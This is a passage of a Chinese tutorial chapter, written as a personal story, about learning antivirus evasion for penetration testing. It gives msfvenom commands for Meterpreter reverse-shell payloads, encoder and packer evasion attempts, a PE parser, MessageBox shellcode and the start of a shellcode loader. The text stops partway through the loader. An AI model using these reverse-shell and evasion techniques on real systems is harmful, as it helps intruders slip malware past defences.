


# 第123章 编程菜鸟到免杀大佬（上）

> **难度等级：⭐⭐⭐ 进阶菜**
>
> **预计阅读时间：150分钟**
>
> **本章看点：脚本小子的逆袭、免杀入门血泪史、Shellcode加载器原理、PE结构从零学起**
>
> ::: tip 说明
> 本章中提到的技术细节，后续对应章节会有更深入的讲解。文中已标注"（详见第X章）"的，你可以翻到对应章节学习具体操作方法。
> :::

---

## 📖 本章概述

::: tip 写在前面
这不是小说，这是真实发生过的故事。

为了保密，所有的人名、公司名、具体时间都已经做了脱敏处理。但成长经历、技术细节、心路历程，都是真实的。

看完这一章，你会明白：
- 编程基础差也能学好免杀，关键是死磕
- 免杀不是玄学，是有系统方法论的
- 从脚本小子到免杀大佬要走多少弯路
- 学免杀到底要学哪些东西
- 第一个能过360的免杀马是怎么搞出来的
:::

---

## 🎯 学习目标

读完本章，你将了解：

- [x] 免杀技术的整体知识图谱（学什么、怎么学）
- [x] PE文件结构的基础知识（DOS头、NT头、节表...）
- [x] Shellcode加载器的基本原理
- [x] 常见的免杀技巧分类（字符串混淆、控制流平坦化、加壳...）
- [x] 从0到1学免杀的学习路径
- [x] 编程小白学免杀的心路历程和避坑指南

---

## 🏆 背景：一个编程菜鸟的自白

### 1.1 我是谁？

我叫小飞，大专毕业，学的是计算机应用技术。

听起来挺厉害是吧？计算机专业的。

但说实话，我大学三年，啥也没学会。

> 你可能会问：三年时间啥也没学会？你干嘛去了？
>
> 唉，说多了都是泪。
>
> 大一的时候，刚从高中解放，光顾着玩了，打游戏、谈恋爱、逃课... 啥都干了，就是没学习。
>
> 大二的时候，想学习了，但是已经跟不上了。C语言指针听不懂，数据结构看着像天书，操作系统更是一头雾水。
>
> 大三的时候，开始焦虑了，找工作怎么办？于是报了个培训班，学了点Python和Web前端，以为能找个工作。
>
> 结果呢？投了几十份简历，要么石沉大海，要么面试被刷。
>
> 为什么？因为基础太差了。

**我的编程水平到底有多差？**

举几个例子你就懂了：

```
📉 我的真实编程水平：

1. C语言
   - 知道int、char、float是什么
   - 能写个Hello World
   - 指针是什么？能吃吗？
   - 结构体？完全搞不懂
   - 链表？那是什么玩意儿？
   - 给我一段C语言代码，我得看半天才能看懂
   - 自己写？算了吧，写个冒泡排序都得百度

2. Python
   - 培训班学的，只会点皮毛
   - 能用requests发个请求
   - 能用BeautifulSoup爬个网页
   - 函数、类这些概念模模糊糊
   - 稍微复杂点的逻辑就写不出来了

3. 其他
   - Java：只会写个Hello World
   - C#：完全不会
   - 汇编：那是啥？外星文吗？
   - 逆向：听都没听过
```

说实话，那时候我对自己挺失望的。

学了三年计算机，连个像样的程序都写不出来。

我甚至怀疑自己是不是不适合干这行。

### 1.2 找工作碰壁

大三下半年，开始找工作。

那叫一个惨。

```
📅 找工作的那些日子：

【第一周】
- 投了20份简历，都是Java开发、Python开发、前端开发
- 回复率：0
- 怀疑人生中...

【第二周】
- 降低要求，投实习岗位
- 投了30份，终于有2个回复
- 面试第一个：让我手写个快排，我写不出来，尴尬离场
- 面试第二个：问我TCP三次握手，我支支吾吾说不清楚，又凉了

【第三周】
- 继续投，继续凉
- 开始怀疑自己是不是真的不行
- 甚至想过转行，去送外卖、开滴滴...

【第四周】
- 终于有个小公司愿意要我了
- 岗位：安全工程师
- 薪资：3500块钱一个月，不管吃住
- 我当时差点哭出来，终于有人要我了
```

你可能会问：你编程这么差，怎么会有安全公司要你？

问得好。

因为那家公司也很小，总共才5个人，老板自己也不懂技术，就是想搞个安全业务，找个人来跑跑工具。

说白了，就是找个"脚本小子"。

> 💡 **什么是脚本小子？**
> 就是只会用别人写好的工具，自己不会写工具的人。
> 工具怎么实现的？不知道。
> 原理是什么？不知道。
> 反正能用就行，跑就完了。
> 说好听点叫安全工程师，说难听点就是工具调用员。

但那时候的我，哪在乎这个？

有工作就不错了！

3500就3500，先干着再说！

### 1.3 入职第一天

入职第一天，老板把我领到工位上，给我拷了一个大大的文件夹，叫"安全工具包"。

我一看，好家伙，几个G的工具，密密麻麻。

老板说：

> "小飞啊，咱们公司主要做渗透测试服务。
> 你的工作呢，就是用这些工具去扫客户的网站，找漏洞，然后写报告。
> 很简单的，看看教程就会了。
> 有不懂的问我，或者自己百度。
> 好好干，以后少不了你的好处。"

我当时还挺激动的，心想终于能学点东西了。

结果呢？

我打开那个工具包，一脸懵逼。

```
😵 工具包打开后的我：

- Nmap？这是啥？
- Burp Suite？怎么读？
- SQLMap？SQL地图像吗？
- Metasploit？这名字好长...
- Cobalt Strike？听起来很厉害的样子
- 蚁剑、菜刀、冰蝎？这都是啥跟啥？
- ...

几百个工具，我一个都不认识。
```

但没办法，既然来了，就得学。

于是我开始百度，一个工具一个工具地学。

先学Nmap怎么扫端口，再学Burp Suite怎么抓包，再学SQLMap怎么扫注入...

那段时间，我每天下班都学到凌晨一两点。

不是因为我勤奋，是因为我基础太差了，别人一小时能学会的东西，我得学三四个小时。

### 1.4 脚本小子的日常

就这么学了一个月，我终于入门了。

虽然原理不懂，但是工具用得挺溜。

我的日常工作是这样的：

```
🔧 脚本小子的一天：

【早上9点】
- 到公司，打开电脑
- 看看今天有什么项目
- 哦，今天要测XX公司的网站

【上午】
- 先拿Nmap扫一遍端口
- 再拿dirsearch扫一遍目录
- 再拿xray扫一遍漏洞
- 然后喝杯茶，等结果

【中午】
- 吃饭，刷手机，睡午觉

【下午】
- 看看扫描结果
- 哦，有个SQL注入？拿SQLMap跑一下
- 哦，有个XSS？拿XSStrike验证一下
- 哦，有个文件上传？传个一句话试试
- 大部分时候，扫描器扫出来的都是误报
- 真漏洞没几个

【下班前】
- 把扫描结果整理一下
- 复制粘贴到报告模板里
- 改改措辞，显得专业一点
- 提交报告，收工
```

你别说，这种日子还挺舒服的。

不用动脑子，工具跑就行了。

但是舒服归舒服，心里总是空落落的。

因为我知道，这些都不是真本事。

离开工具，我啥也不是。

但那时候我也没想那么多，先干着呗，好歹有份工作。

---

## 💀 免杀：永远的痛

### 2.1 第一次做项目

干了三个月，我终于能独立做一些小项目了。

有一次，老板接了个内网渗透的项目。

客户是一家小公司，想让我们测测他们内网的安全性。

老板说：

> "小飞，这个项目你跟着我一起做。
> 你负责生成木马，然后想办法传到客户内网里去。
> 没问题吧？"

我当时拍着胸脯说：

> "没问题老板！我MSF用得可溜了！
> 生成个木马还不简单？分分钟的事！"

现在想想，那时候的我真是太天真了。

### 2.2 MSF生成木马，一上去就没

我打开Kali，熟练地敲下了那串我背得滚瓜烂熟的命令：

```bash
# 生成一个Windows的反向连接木马
msfvenom -p windows/meterpreter/reverse_tcp LHOST=我的IP LPORT=4444 -f exe -o payload.exe
```

几秒钟，木马生成好了。

我得意洋洋地跟老板说：

> "老板，木马生成好了！
> 就等找机会传到客户机器上了！"

老板点了点头，然后通过社会工程学的方式，把木马传到了客户的一台测试机器上。

然后... 就没有然后了。

等了半天，MSF里一点反应都没有。

```
😱 当时的情况：

我："奇怪，怎么没上线？
     是不是IP写错了？
     还是端口没开？"

老板："你等会儿，我去看看客户那台机器。"

几分钟后...

老板："小飞，你那马被杀了。
       客户机器上装了360，一上传就被查杀了。
       你整个免杀的出来。"

我："免...免杀？"
```

免杀？

我听说过这个词，但从来没试过。

我以为MSF生成的木马就能用呢。

我硬着头皮说：

> "好的老板，我试试！"

### 2.3 各种姿势尝试，全部阵亡

于是我开始百度"MSF免杀"。

搜出来一堆教程，这个说用编码器，那个说用加壳。

我一个一个试。

```
💀 我的免杀尝试（全部失败）：

【尝试1：编码器编码】
msfvenom -p windows/meterpreter/reverse_tcp LHOST=我的IP LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload1.exe
结果：上传就被杀，360直接报病毒。

【尝试2：多重编码】
msfvenom -p windows/meterpreter/reverse_tcp LHOST=我的IP LPORT=4444 -e x86/shikata_ga_nai -i 20 -f raw | msfvenom -e x86/alpha_upper -a x86 --platform windows -i 5 -f exe -o payload2.exe
结果：还是被杀，连编码次数多了都认得出来。

【尝试3：加壳UPX】
upx -9 payload.exe
结果：被杀，UPX壳360一秒就脱了。

【尝试4：加其他壳】
找了各种冷门的加壳工具，什么ASProtect、PECompact、Themida（试用版）
结果：
- 便宜的壳：秒脱
- 贵的壳：我买不起正版，试用版有特征，照样被杀

【尝试5：改入口点、加花指令】
找了个工具改了改入口点，加了点没用的指令
结果：还是被杀，360根本不吃这一套。

【尝试6：各种一键免杀工具】
网上找了各种"2024最新免杀工具"、"一键过360"
结果：
- 要么工具本身就是病毒
- 要么生成的马根本不免杀
- 要么就是好几年前的老东西，早就被查杀了
```

试了一整天，试了十几种方法，没有一个能过360的。

甚至连Windows Defender都过不了。

我当时都快哭了。

老板过来问我：

> "小飞，免杀马做出来了吗？
> 客户那边等着呢。"

我低着头说：

> "老...老板，对不起，我没做出来...
> 试了好多种方法，都被杀了..."

老板叹了口气，说：

> "唉，行了，我知道了。
> 我找别人做吧。
> 你啊，还是得好好学啊。"

那一刻，我羞愧得恨不得找个地缝钻进去。

### 2.4 客户的吐槽

后来项目还是做完了，老板找了个外援做的免杀马。

但是项目结束后，客户跟老板吐槽说：

> "你们的工具不行啊，刚上去就没了。
> 我这还是只装了个360，要是装了其他EDR，你们是不是更不行？
> 下次能不能专业点？"

老板虽然没当面说我，但我知道，客户说的就是我。

那天晚上，我失眠了。

我躺在床上翻来覆去地想：

> 我这算什么安全工程师？
> 连个免杀马都做不出来。
> 每天就是拿着工具扫来扫去，有什么用？
> 这样下去，我这辈子也就这样了吧？
> 3500块钱一个月，什么时候是个头？

想着想着，我就下定了决心：

**我要学免杀！**

不管多难，我都要学会！

我就不信了，别人能学会，我为什么学不会？

不就是编程基础差吗？我补！

不就是汇编看不懂吗？我学！

不就是PE结构复杂吗？我啃！

死磕了！

---

## 📚 下定决心：从零开始学免杀

### 3.1 免杀到底要学什么？

下定决心容易，但真要学的时候，我又懵了。

免杀到底要学什么？从哪开始学？

我百度了"免杀学习路线"，搜出来的东西乱七八糟的。

有的说先学汇编，有的说先学PE结构，有的说直接学加壳...

越看越乱。

后来我找到了一张图，叫"免杀技术图谱"，我看了之后才大概有了个概念。

**图123-1 免杀技术全景图谱**



看完这张图，我倒吸一口凉气。

我的妈呀，要学的东西也太多了吧！

什么C语言、汇编、PE结构、Shellcode、加载器、加壳脱壳、对抗EDR...

我一个编程小白，这得学到猴年马月去？

但是转念一想：

> 怕什么？一步一步来呗。
> 大佬也不是一天练成的。
> 今天学一点，明天学一点，总能学会的。
> 反正我年轻，有的是时间。

于是我给自己制定了一个学习计划。

### 3.2 我的学习计划

**图123-2 免杀学习路径图**



计划制定好了，那就开干！

### 3.3 第一步：重新学C语言

说出来你可能不信，我最先学的，居然是我大学三年都没学会的C语言。

没办法，免杀这块，C语言是基础中的基础。

不会C语言，你连个最简单的加载器都写不出来。

于是我找了个C语言的教程，从头开始学。

```
📚 C语言学习清单：

【第一阶段：基础语法】
- 变量、数据类型、运算符
- 顺序、选择、循环结构
- 数组、字符串、函数
- 这些大学学过，捡起来还算快
- 花了一周时间，算是捡回来了

【第二阶段：指针（重点中的重点）】
- 指针是什么？指针变量、指针的类型
- 指针的运算、指针与数组
- 多级指针、指针数组、数组指针
- 函数指针、回调函数
- 这部分我学了整整两周，头都大了
- 什么int *p、int **p、int (*p)[10]...
- 经常搞混，学了忘，忘了学
- 后来我画了好多图，才慢慢理解

【第三阶段：内存管理】
- 栈内存、堆内存
- malloc、free、calloc、realloc
- 内存泄漏、野指针、悬空指针
- 这部分也很重要，后面写加载器天天用

【第四阶段：结构体、联合体、枚举】
- struct、union、enum
- 结构体指针、结构体数组
- 内存对齐
- PE结构里全是结构体，这个必须会

【第五阶段：文件操作】
- 文件的打开、关闭、读写
- 二进制文件操作
- 后面分析PE文件要用

【第六阶段：Windows API】
- CreateFile、ReadFile、WriteFile
- VirtualAlloc、VirtualProtect、CreateRemoteThread
- GetProcAddress、LoadLibrary
- 这些API后面写加载器天天用
```

那段时间，我真是拼了。

每天早上6点起床，学到8点，然后去上班。

上班的时候，没活干就偷偷看教程。

晚上下班回去，从7点学到12点，有时候学到一两点。

周末也不出去玩，就在家写代码。

就这样学了一个多月，C语言总算是入门了。

虽然不能说有多精通，但至少能看懂代码了，也能自己写点简单的程序了。

> 💡 **给编程小白的建议**
> 如果你也是编程基础差，想学好免杀，一定要先把C语言基础打牢。
> 特别是指针和内存，这个是重中之重。
> 不要急于求成，基础打不好，后面学什么都费劲。
> C语言这个东西，你花再多时间都值得。

### 3.4 第二步：学汇编，头都大了

C语言刚入门，我就开始学汇编了。

汇编这个东西，早有耳闻，据说很难。

真正学的时候，我才发现，岂止是难，简直是天书！

```
😵 刚学汇编的我：

mov eax, ebx    ；把ebx的值放到eax里
add eax, ecx    ；eax = eax + ecx
push ebp        ；把ebp压栈
mov ebp, esp    ；设置栈帧
...

这些简单的指令还好，背一背就记住了。

但是一到复杂点的就懵了：
- 什么是寻址方式？立即寻址、寄存器寻址、直接寻址、寄存器间接寻址...
- 什么是栈？栈帧是什么？函数调用约定是什么？
- 什么是平栈？__cdecl和__stdcall有什么区别？
- 寄存器那么多，eax、ebx、ecx、edx、esi、edi、ebp、esp... 都是干嘛的？
```

那段时间，我看汇编代码，就像看外星文一样。

但是没办法，硬着头皮学吧。

我找了一本叫《汇编语言（第3版）》的书，就是王爽那本，从最基础的8086汇编开始学。

然后又学x86汇编，32位的，64位的。

学了忘，忘了学，来来回回好几遍。

**我是怎么学汇编的？**

给大家分享一个笨办法，但是对我挺管用的：

```
🔧 我的汇编学习方法（笨但有效）：

1. 先把常用指令背下来
   - 数据传送：mov、push、pop、lea...
   - 算术运算：add、sub、inc、dec、mul、div...
   - 逻辑运算：and、or、not、xor、test...
   - 控制转移：jmp、je、jne、jg、jl、call、ret...
   - 串操作：movs、cmps、scas...
   - 不用全背，常用的先记住，剩下的用到再查

2. 对着C代码看反汇编
   - 写一段简单的C代码
   - 用VS编译，然后反汇编
   - 一句一句对着看，C代码对应哪句汇编
   - 比如：
     int a = 1;         →   mov dword ptr [a], 1
     int b = 2;         →   mov dword ptr [b], 2
     int c = a + b;     →   mov eax, dword ptr [a]
                            add eax, dword ptr [b]
                            mov dword ptr [c], eax
   - 这样对比着看，慢慢就理解了

3. 用调试器单步跟踪
   - 写个小程序，用x64dbg或者OllyDbg打开
   - 一句一句单步执行
   - 看寄存器怎么变，栈怎么变，内存怎么变
   - 看多了就有感觉了

4. 自己写汇编
   - 不用写复杂的，写点简单的
   - 比如用汇编写个加法函数
   - 用汇编写个Hello World（调用Windows API）
   - 写过几次之后，印象就深了
```

就这么着，学了两个多月，汇编总算是入门了。

不敢说精通，至少看简单的汇编代码没问题了。

也能自己写点简单的汇编代码了。

这时候再回头看Shellcode，就不觉得那么神秘了。

> 💡 **汇编要不要学很深？**
> 个人觉得，学免杀的话，汇编不用学到能写大程序的程度。
> 能看懂、能写点简单的、能调试、能分析就够了。
> 毕竟我们不是搞逆向的，不用那么精通。
> 但是基础一定要打好，不然分析Shellcode、分析加壳后的代码会很吃力。

### 3.5 第三步：啃PE文件结构

C语言和汇编都入门了，接下来就是PE文件结构了。

PE是什么？

PE（Portable Executable），就是Windows下的可执行文件格式。

.exe、.dll、.sys、.ocx... 这些都是PE文件。

学免杀，PE结构是绕不开的。

不管是做加载器、做注入、加壳脱壳，都得懂PE结构。

**PE结构到底有多复杂？**

给你们看个图就知道了：

**图123-3 PE文件结构示意图**

```mermaid
flowchart TD
    subgraph PE文件整体结构
        A[DOS头<br/>IMAGE_DOS_HEADER] --> B[DOS Stub<br/>DOS程序]
        B --> C[NT头<br/>IMAGE_NT_HEADERS]
        C --> D[文件头<br/>IMAGE_FILE_HEADER]
        C --> E[可选头<br/>IMAGE_OPTIONAL_HEADER]
        E --> E1[标准字段]
        E --> E2[Windows特定字段]
        E --> E3[数据目录表<br/>DataDirectory[16]]
        E3 --> E31[导出表]
        E3 --> E32[导入表]
        E3 --> E33[资源表]
        E3 --> E34[异常表]
        E3 --> E35[证书表]
        E3 --> E36[重定位表]
        E3 --> E37[调试信息]
        E3 --> E38[...还有很多]
        C --> F[节表<br/>IMAGE_SECTION_HEADER × N]
        F --> F1[.text 代码节]
        F --> F2[.data 数据节]
        F --> F3[.rdata 只读数据节]
        F --> F4[.rsrc 资源节]
        F --> F5[.reloc 重定位节]
        F --> F6[...其他节]
    end

    style A fill:#FFB6C1
    style C fill:#90EE90
    style E fill:#87CEEB
    style F fill:#FFE4B5
```

第一次看到这张图的时候，我头都大了。

什么DOS头、NT头、文件头、可选头、节表、数据目录...

这都是啥跟啥啊？

但是没办法，再难也得学。

我找了本《Windows PE权威指南》，开始啃。

这本书很厚，七百多页，我啃了快三个月才啃完。

```
📚 PE结构学习笔记（重点中的重点）：

【1. DOS头（IMAGE_DOS_HEADER）】
- PE文件最开头的部分，64字节
- 最重要的两个字段：
  * e_magic：MZ标志（"MZ"，4D5A），判断是不是PE文件
  * e_lfanew：NT头的偏移，告诉我们NT头在哪
- 剩下的都是DOS时代的东西了，现在基本没用

【2. NT头（IMAGE_NT_HEADERS）】
- DOS头后面，通过e_lfanew找到
- 三个部分：
  * Signature：PE标志（"PE\0\0"，50450000）
  * FileHeader：文件头
  * OptionalHeader：可选头

【3. 文件头（IMAGE_FILE_HEADER）】
- 20字节，记录了文件的基本信息
- 重要字段：
  * Machine：机器类型（x86是14Ch，x64是8664h）
  * NumberOfSections：节的数量
  * SizeOfOptionalHeader：可选头的大小
  * Characteristics：文件属性（是不是DLL、是不是可执行...）

【4. 可选头（IMAGE_OPTIONAL_HEADER）】
- 虽然叫"可选"，但其实是必须的
- 32位PE是224字节，64位是240字节
- 重要字段：
  * Magic：ROM标识（32位是10Bh，64位是20Bh）
  * AddressOfEntryPoint：程序入口点RVA
  * ImageBase：建议加载基址
  * SectionAlignment：内存对齐
  * FileAlignment：文件对齐
  * SizeOfImage：内存中PE的大小
  * SizeOfHeaders：所有头+节表的大小
  * DataDirectory[16]：数据目录表，16个元素，每个元素是一个表的位置和大小

【5. 数据目录表（DataDirectory）】
- 16个元素，每个元素是IMAGE_DATA_DIRECTORY结构体
- 每个元素对应一个表：
  * 索引0：导出表（Export Table）
  * 索引1：导入表（Import Table）
  * 索引2：资源表（Resource Table）
  * 索引5：重定位表（Relocation Table）
  * 索引8：调试目录（Debug Directory）
  * ...还有其他的，先记住这几个重要的
- 每个元素有两个字段：
  * VirtualAddress：表的RVA地址
  * Size：表的大小

【6. 节表（IMAGE_SECTION_HEADER）】
- 可选头后面，NumberOfSections个元素
- 每个元素40字节，描述一个节的信息
- 重要字段：
  * Name：节名（8字节，比如".text"、".data"）
  * VirtualSize：节在内存中的大小
  * VirtualAddress：节在内存中的RVA
  * SizeOfRawData：节在文件中的大小
  * PointerToRawData：节在文件中的偏移
  * Characteristics：节的属性（可读、可写、可执行...）
```

光记这些结构体和字段，我就记了好久。

经常是记住了这个，忘了那个。

后来我想了个办法，就是写代码去解析PE文件。

写个小程序，打开一个PE文件，把各种头、节表、导入表、导出表都打印出来。

写过几遍之后，印象就深多了。

**一个最简单的PE解析器示例：**

```c
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[])
{
    if (argc != 2) {
        printf("Usage: %s <pe_file>\n", argv[0]);
        return 1;
    }

    // 打开文件
    HANDLE hFile = CreateFileA(argv[1], GENERIC_READ, FILE_SHARE_READ, 
        NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("Failed to open file\n");
        return 1;
    }

    // 读取文件大小
    DWORD dwFileSize = GetFileSize(hFile, NULL);
    
    // 分配内存，读取文件
    LPVOID pFileBuffer = VirtualAlloc(NULL, dwFileSize, 
        MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    DWORD dwRead;
    ReadFile(hFile, pFileBuffer, dwFileSize, &dwRead, NULL);
    CloseHandle(hFile);

    // 解析DOS头
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pFileBuffer;
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        printf("Not a valid PE file (MZ signature not found)\n");
        VirtualFree(pFileBuffer, 0, MEM_RELEASE);
        return 1;
    }
    printf("DOS Header:\n");
    printf("  Magic: %c%c\n", pDosHeader->e_magic & 0xFF, (pDosHeader->e_magic >> 8) & 0xFF);
    printf("  e_lfanew: 0x%X\n", pDosHeader->e_lfanew);

    // 解析NT头
    PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)(
        (DWORD)pFileBuffer + pDosHeader->e_lfanew);
    if (pNtHeader->Signature != IMAGE_NT_SIGNATURE) {
        printf("Not a valid PE file (PE signature not found)\n");
        VirtualFree(pFileBuffer, 0, MEM_RELEASE);
        return 1;
    }
    printf("\nNT Header:\n");
    printf("  Signature: %c%c\\0\\0\n", 
        pNtHeader->Signature & 0xFF, (pNtHeader->Signature >> 8) & 0xFF);

    // 解析文件头
    PIMAGE_FILE_HEADER pFileHeader = &pNtHeader->FileHeader;
    printf("\nFile Header:\n");
    printf("  Machine: 0x%X", pFileHeader->Machine);
    if (pFileHeader->Machine == IMAGE_FILE_MACHINE_I386) {
        printf(" (x86)");
    } else if (pFileHeader->Machine == IMAGE_FILE_MACHINE_AMD64) {
        printf(" (x64)");
    }
    printf("\n");
    printf("  NumberOfSections: %d\n", pFileHeader->NumberOfSections);
    printf("  SizeOfOptionalHeader: 0x%X\n", pFileHeader->SizeOfOptionalHeader);
    printf("  Characteristics: 0x%X\n", pFileHeader->Characteristics);

    // 解析可选头
    PIMAGE_OPTIONAL_HEADER pOptionalHeader = &pNtHeader->OptionalHeader;
    printf("\nOptional Header:\n");
    printf("  Magic: 0x%X", pOptionalHeader->Magic);
    if (pOptionalHeader->Magic == IMAGE_NT_OPTIONAL_HDR32_MAGIC) {
        printf(" (32-bit PE)");
    } else if (pOptionalHeader->Magic == IMAGE_NT_OPTIONAL_HDR64_MAGIC) {
        printf(" (64-bit PE)");
    }
    printf("\n");
    printf("  AddressOfEntryPoint: 0x%X\n", pOptionalHeader->AddressOfEntryPoint);
    printf("  ImageBase: 0x%X\n", pOptionalHeader->ImageBase);
    printf("  SectionAlignment: 0x%X\n", pOptionalHeader->SectionAlignment);
    printf("  FileAlignment: 0x%X\n", pOptionalHeader->FileAlignment);
    printf("  SizeOfImage: 0x%X\n", pOptionalHeader->SizeOfImage);
    printf("  SizeOfHeaders: 0x%X\n", pOptionalHeader->SizeOfHeaders);

    // 解析节表
    PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)(
        (DWORD)pOptionalHeader + pFileHeader->SizeOfOptionalHeader);
    printf("\nSection Headers:\n");
    printf("  %-8s  %-10s  %-10s  %-10s  %-10s  %-10s\n", 
        "Name", "VirtSize", "VirtAddr", "RawSize", "RawOffset", "Characteristics");
    for (int i = 0; i < pFileHeader->NumberOfSections; i++) {
        char sectionName[9] = {0};
        memcpy(sectionName, pSectionHeader[i].Name, 8);
        printf("  %-8s  0x%-8X  0x%-8X  0x%-8X  0x%-8X  0x%-8X\n",
            sectionName,
            pSectionHeader[i].Misc.VirtualSize,
            pSectionHeader[i].VirtualAddress,
            pSectionHeader[i].SizeOfRawData,
            pSectionHeader[i].PointerToRawData,
            pSectionHeader[i].Characteristics);
    }

    // 释放内存
    VirtualFree(pFileBuffer, 0, MEM_RELEASE);
    return 0;
}
```

> 💡 **RVA和FOA是什么？**
> 学PE结构，一定要搞懂两个概念：RVA和FOA。
>
> - RVA（Relative Virtual Address）：相对虚拟地址，就是相对于ImageBase的偏移。内存中用的是RVA。
> - FOA（File Offset Address）：文件偏移地址，就是文件中的偏移。文件中用的是FOA。
>
> 数据目录表里给的都是RVA，但是我们读文件的时候用的是FOA，所以经常需要转换。
>
> 怎么转换？遍历节表，看这个RVA在哪个节里，然后用公式：
> FOA = RVA - 节的VirtualAddress + 节的PointerToRawData
>
> 这个转换很重要，后面经常用到。

---

## 🔧 第一个Shellcode加载器

### 4.1 什么是Shellcode？

PE结构学的差不多了，我终于可以开始写加载器了。

但是在写加载器之前，得先搞懂什么是Shellcode。

> 💡 **什么是Shellcode？**
> Shellcode就是一段机器码，通常用来获取Shell（命令行），所以叫Shellcode。
> 后来这个概念扩展了，只要是一段独立的、能直接执行的机器码，都可以叫Shellcode。
>
> 比如MSF里的meterpreter，本质上就是一段Shellcode。
> 这段Shellcode执行之后，会反向连接到你的C2服务器，然后你就能控制被控机器了。
>
> Shellcode的特点：
> - 不依赖任何库（或者说自己解决依赖）
> - 位置无关（放哪都能执行）
> - 没有空字节（某些场景下需要，比如漏洞利用的时候）

**Shellcode长什么样？**

给大家看个最简单的MessageBox的Shellcode：

```c
// 一个最简单的MessageBox Shellcode（x86）
// 功能：弹出一个MessageBox
unsigned char shellcode[] = 
"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
"\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
"\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
"\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
"\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
"\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
"\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
"\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
"\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
"\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
"\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
"\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
"\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
"\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
"\x68\x58\x20\x58\x20\x68\x48\x65\x6c\x6c\x31\xc9\x88\x4c\x24"
"\x03\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
"\x55\x08";
```

看到没？就是一堆十六进制的字节。

这些字节就是CPU能直接执行的机器指令。

把这些字节放到内存里，然后跳过去执行，就能弹个MessageBox出来。

是不是很神奇？

### 4.2 最简单的Shellcode加载器

那Shellcode加载器又是什么呢？

说白了，就是一个程序，把Shellcode放到内存里，然后跳过去执行。

就这么简单。

**我写的第一个Shellcode加载器：**

```c
#include <stdio.h>
#include <windows.h>

// MessageBox的Shellcode
unsigned char shellcode[] = 
"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
"\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
"\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
"\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
"\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
